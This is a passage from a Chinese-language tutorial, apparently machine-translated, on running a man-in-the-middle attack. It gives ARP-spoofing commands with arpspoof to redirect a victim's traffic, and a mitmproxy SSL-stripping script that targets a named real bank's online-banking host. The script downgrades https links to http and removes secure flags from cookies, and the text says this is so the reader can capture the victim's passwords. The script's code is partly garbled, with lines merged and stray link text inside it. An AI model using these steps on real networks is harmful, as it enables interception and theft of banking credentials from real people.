 然后我们安装一些依赖项:

```
sudo apt-get install libffi-dev libssl-dev libxml2-dev 
sudo apt-get install libxslt1-dev libjpeg62-turbo-dev zlib1g-dev g++
```

现在，我们终于准备好安装`mitmproxy`:

```
cd
virtualenv -p /usr/local/bin/python3.5 proxy
cd proxy
. bin/activate
pip install mitmproxy
```

我用的是 0.18.2 版本的`mitmproxy`,但是我想新版本也可以。

## 步骤 1-转移受害者的交通

现在我们都设置好了，我们可以进入攻击的第一步，我们将受害者的流量转移到我们的机器上。

但是，在我们实际转移受害者的流量之前，我们需要确保我们实际上正确处理了转移的流量，并将其转发到网关(路由器)。否则，受害者将无法建立任何网络连接，从而有效地断开他们与互联网的连接。

为此，我们需要做的就是设置 IP 转发:

```
sudo sysctl -w net.ipv4.ip_forward=1
```

现在，让交通改道！

您需要打开两个不同的终端窗口(或者您可以使用`[screen](https://www.gnu.org/software/screen/)`实用程序)。在第一台终端上运行以下命令:

```
sudo arpspoof -i eth0 -t **GATEWAY_****IP** **VICTIM_IP**
```

第二个终端上的这个:

```
sudo arpspoof -i eth0 -t **VICTIM_IP GATEWAY_****IP**
```

其中`**VICTIM_IP**`是受害者的 IP 地址，`**GATEWAY_IP**`是网关的 IP 地址。如果您使用 WiFi，您可能还需要将`eth0`更改为不同的名称，例如`wlan0`或`wlan1`。

您可以通过键入`ifconfig -a`找到网络接口的名称以及网关机器的 IP 地址。

上面的命令基本上用 ARP 数据包轰炸受害者的机器和网关，告诉它们另一端的目的 IP 实际上属于攻击者的机器。流量分流就是这样实现的。

现在随着流量的转移，我们可以开始截取数据。

## 步骤 2-设置 SSL 剥离(这样您就可以获得受害者的密码)

我们现在已经为实际执行攻击做好了一切准备。我们所需要做的就是为`mitmproxy`提供一个脚本来进行 SSL 剥离:

```
def request(flow):
  host = flow.request.headers['Host']
  if host == 'hb2.bankleumi.co.il':
    flow.request.scheme = 'https'
    flow.request.port = 443def response(flow):
  newcontent=flow.response.content.replace(b'[https://](https://%27)', b'[http://')](http://%27%29.replace%28SIGNATURE,)
  flow.response.content = newcontent
  if "set-cookie" in flow.response.headers:
    flow.response.headers.replace(b';secure', b'')
```
